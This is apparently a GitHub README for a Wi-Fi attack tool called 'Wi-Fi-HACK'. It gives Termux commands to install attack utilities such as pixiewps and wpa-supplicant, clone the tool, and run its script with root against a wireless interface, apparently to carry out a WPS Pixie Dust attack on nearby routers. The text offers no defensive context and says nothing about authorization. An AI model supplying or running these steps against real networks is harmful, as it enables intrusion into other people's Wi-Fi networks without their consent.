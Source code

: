 # Wi-Fi-HACK
pkg update
pkg upgrade
pkg install tsu
pkg install python
pkg install git
pkg install -y root-repo
pkg install -y git tsu python wpa-supplicant pixiewps iw openssl
termux-setup-storage
git clone --depth 1 https://github.com/IAR-CYBER-143/Wi-Fi-HACK
# Then Exit Termux
# Now Run

sudo python Wi-Fi-HACK/RISAT-Shot.py -i wlan0 -K

then exit and again run 

sudo python Wi-Fi-HACK/RISAT-Shot.py -i wlan0 --iface-down -K
